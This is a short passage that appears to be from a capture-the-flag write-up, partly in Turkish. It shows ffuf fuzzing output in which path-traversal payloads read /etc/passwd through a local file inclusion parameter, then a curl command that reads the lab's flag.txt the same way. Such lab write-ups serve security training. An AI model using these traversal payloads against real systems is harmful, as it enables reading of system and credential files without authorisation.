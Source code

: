         v2.1.0-dev
    ________________________________________________

    :: Method           : GET
    :: URL              : http://83.136.255.150:57245/index.php?view=FUZZ
    :: Wordlist         : FUZZ: /opt/useful/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt
    :: Follow redirects : false
    :: Calibration      : false
    :: Timeout          : 10
    :: Threads          : 40
    :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
    :: Filter           : Response size: 1935
    ________________________________________________

    ../../../../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 3309, Words: 526, Lines: 82, Duration: 69ms]
    ../../../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 3309, Words: 526, Lines: 82, Duration: 73ms]
    ../../../../../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 3309, Words: 526, Lines: 82, Duration: 77ms]
    ../../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 3309, Words: 526, Lines: 82, Duration: 133ms]
    ../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 3309, Words: 526, Lines: 82, Duration: 150ms]
    ../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 3309, Words: 526, Lines: 82, Duration: 151ms]
    :: Progress: [922/922] :: Job [1/1] :: 284 req/sec :: Duration: [0:00:05] :: Errors: 0 ::
    ```

    Aşağıdaki komut ile flag bilgisini öğren:

    ```bash
    curl 'http://83.136.255.150:57245/index.php?view=../../../../../../../../../../../../../../../../../flag.txt'
    ```
